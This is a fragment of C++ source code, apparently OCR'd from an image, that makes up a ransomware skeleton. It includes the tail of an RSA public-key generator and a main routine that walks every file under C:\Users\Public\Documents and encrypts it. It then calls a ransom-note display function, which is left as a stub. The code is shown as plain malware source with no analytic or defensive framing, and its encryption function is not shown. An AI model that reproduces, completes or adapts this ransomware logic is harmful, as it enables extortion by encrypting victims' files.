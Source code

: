     

    char* publicKey;

    long len = BIO_get_mem_data(bio, &publicKey);

    std::string publicKeyString(publicKey, len);



    BIO_free_all(bio);

    RSA_free(rsa);

    BN_free(e);



    return publicKeyString;

}



void displayRansomNote(const std::string& publicKey)

{

    // Insert code to display ransom note with the generated public key

}



int main()

{

    std::string targetDirectory = "C:\\Users\\Public\\Documents\\";

    std::string publicKey = generatePublicKey();



    std::filesystem::recursive_directory_iterator it(targetDirectory), end;

    while (it != end)

    {

        if (std::filesystem::is_regular_file(*it))

        {

            encryptFile(it->path().string(), publicKey);

        }

        ++it;

    }



    displayRansomNote(publicKey);



    return 0;

